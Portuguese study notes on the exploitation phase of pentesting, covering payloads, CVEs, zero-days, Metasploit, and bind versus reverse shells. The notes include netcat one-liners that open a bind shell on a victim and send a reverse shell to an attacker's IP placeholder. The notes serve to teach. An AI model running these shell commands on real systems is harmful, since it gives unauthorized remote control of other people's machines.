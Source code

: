 # Explotation

Explora as vunerabilidade encontradas, enviando um playload para a máquina alvo.
- Priorizamos a exploração pela criticidade das vunerabilidades
- Um playload pode ser um programa ou uma shell
  - A shell conecta a máquina alvo permite executar comandos na máquiona alvo

Algumas vezes não são encontradas vunerabilidades que possam ser exploradas. Cintudo, isso não indica que não possam ocorres ataques exitosos. Nesses casos, o playload é carregado através de engenharia social.


**Sobre vunerabilidades:**
- CVE (Common Vulnerabilities and Exposures)
  - referência universal para que fabricantes, pesquisadores e empresas falem a mesma “língua” quando tratam de vulnerabilidades.
  - Formato: CVE-ANO-NÚMERO
    - Exemplo: CVE-2017-0144 (EternalBlue, usado no ataque WannaCry).
- Zero-day vulnerability: falha de segurança desconhecida pelo fabricante ou pela comunidade de segurança.
  - Não documentada publicamente – não existe CVE ou alerta oficial ainda.
  - Não tem correção – os fabricantes e usuários não podem se proteger com patch.
  - Alvo preferido de cibercriminosos e governos – porque é extremamente difícil de detectar e defender.
  - Alto valor de mercado – exploits 0-day podem ser vendidos em mercados clandestinos (ou até mesmo para agências governamentais).
  - Zero-day exploit: é o código ou técnica que explora essa falha antes que exista um patch/correção disponível.
- A vunerabilidade nem sempre é técnica, pode ser também pessoas que utilizem uma rede.
  - A maioria dos ataques são de exploração de vunerabilidades de pessoas.

A principal ferramenta utilizada durante o explotation é o **metasploit framework**.

## Reverse Shell e Bind Shell

### **Bind Shell**

* O atacante faz com que a máquina-alvo **abra uma porta e “escute” conexões externas**.
* O atacante então se conecta diretamente a essa porta para obter acesso.
* **Fluxo:**
  * Vítima → abre porta (servidor)
  * Atacante → conecta na porta (cliente)
* Exemplo:
```
# Na vítima
nc -lvp 4444 -e /bin/bash   # abre uma shell e espera conexão

# No atacante
nc <IP_da_vítima> 4444
```

### **Reverse Shell**

* Ao invés de escutar, a vítima **abre uma conexão de saída** para o atacante.
* Muito usado em ambientes protegidos por firewall, onde a máquina não aceita conexões externas, mas **pode sair para fora (outbound)**.
* **Fluxo:**
  * Atacante → escuta em uma porta
  * Vítima → conecta no atacante e envia a shell
* Exemplo:
```
# No atacante
nc -lvp 4444   # escuta esperando a shell

# Na vítima
nc <IP_do_atacante> 4444 -e /bin/bash
```

### Comparação

| Característica      | Bind Shell 🖥️➡️    | Reverse Shell ⬅️🖥️                |
| ------------------- | ------------------- | ---------------------------------- |
| Quem abre a porta?  | Vítima (servidor)   | Atacante (servidor)                |
| Quem conecta?       | Atacante            | Vítima                             |
| Mais fácil em…      | Rede sem firewall   | Rede com firewall (saída liberada) |
| Risco para atacante | IP e porta expostos | Atacante fica oculto (escutando)   |


